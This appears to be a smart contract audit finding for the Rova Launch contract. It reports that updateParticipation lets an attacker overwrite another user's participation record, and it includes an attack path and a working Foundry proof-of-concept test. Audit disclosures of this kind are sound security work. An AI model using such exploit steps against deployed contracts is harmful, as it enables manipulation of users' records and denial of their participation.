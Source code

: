 Precise Aquamarine Squid

High

# Existing Participation Records Can Be Overwritten Through Update Function

### Summary

Missing validation in `updateParticipation` will cause existing participations to be overwritten as the function does not verify if the new participation ID already exists, allowing users or attackers to manipulate existing participation records.

### Root Cause

In [`Launch.sol:updateParticipation()`](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312), there is no validation to ensure `newLaunchParticipationId` doesn't already exist:
```solidity
function updateParticipation(UpdateParticipationRequest calldata request, bytes calldata signature) {
    ParticipationInfo storage newInfo = launchGroupParticipations[request.newLaunchParticipationId];
}
```

### Internal Pre-conditions

1. At least two users must have valid participations in a launch group
2. The launch group must be in ACTIVE status
3. The launch group must not finalize at participation


### External Pre-conditions

1. Signer needs to sign both the initial participation requests and the malicious update request
2. Update participation signature from backend needs to be valid and not expired

### Attack Path

1. Victim creates a valid participation with ID1
2. Attacker creates a valid participation with ID2
3. Attacker calls updateParticipation with prevLaunchParticipationId = ID2 and newLaunchParticipationId = ID1
4. Victim's participation data gets overwritten with attacker's data

### Impact

An attacker can overwrite any existing participation record, leading to:
- Loss of legitimate participation records
- Manipulation of participant data
- Disruption of the launch process
- Potential denial of service for legitimate participants

### PoC

```solidity
pragma solidity ^0.8.22;

import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    UpdateParticipationRequest,
    ParticipationInfo
} from "../src/Types.sol";

contract ParticipationIdCollisionTest is Test, Launch, LaunchTestBase {
    ParticipationRequest public victimRequest;
    ParticipationRequest public attackerRequest;

    function setUp() public {
        _setUpLaunch();
        _setupLaunchGroup();

        victimRequest = _createParticipationRequest();
        victimRequest.userAddress = user1;
        victimRequest.userId = "user1";
        bytes memory victimSignature = _signRequest(abi.encode(victimRequest));

        vm.startPrank(user1);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                victimRequest.launchGroupId,
                victimRequest.currency,
                victimRequest.tokenAmount
            )
        );
        launch.participate(victimRequest, victimSignature);
        vm.stopPrank();

        attackerRequest = _createParticipationRequest();
        attackerRequest.userAddress = user2;
        attackerRequest.userId = "user2";
        attackerRequest.launchParticipationId = "attackerParticipationId";
        bytes memory attackerSignature = _signRequest(abi.encode(attackerRequest));

        vm.startPrank(user2);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                attackerRequest.launchGroupId,
                attackerRequest.currency,
                attackerRequest.tokenAmount
            )
        );
        launch.participate(attackerRequest, attackerSignature);
        vm.stopPrank();
    }

    function test_ParticipationIdCollision() public {
        ParticipationInfo memory victimInfo = launch.getParticipationInfo(victimRequest.launchParticipationId);
        assertEq(victimInfo.userId, "user1");
        assertEq(victimInfo.userAddress, user1);

        UpdateParticipationRequest memory updateRequest = UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: attackerRequest.launchParticipationId,
            newLaunchParticipationId: victimRequest.launchParticipationId,
            userId: "user2",
            userAddress: user2,
            tokenAmount: attackerRequest.tokenAmount,
            currency: attackerRequest.currency,
            requestExpiresAt: block.timestamp + 1 hours
        });

        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user2);
        launch.updateParticipation(updateRequest, updateSignature);
        vm.stopPrank();

        ParticipationInfo memory overwrittenInfo = launch.getParticipationInfo(victimRequest.launchParticipationId);
        assertEq(overwrittenInfo.userId, "user2"); 
        assertEq(overwrittenInfo.userAddress, user2);
    }
}
```

### Mitigation

_No response_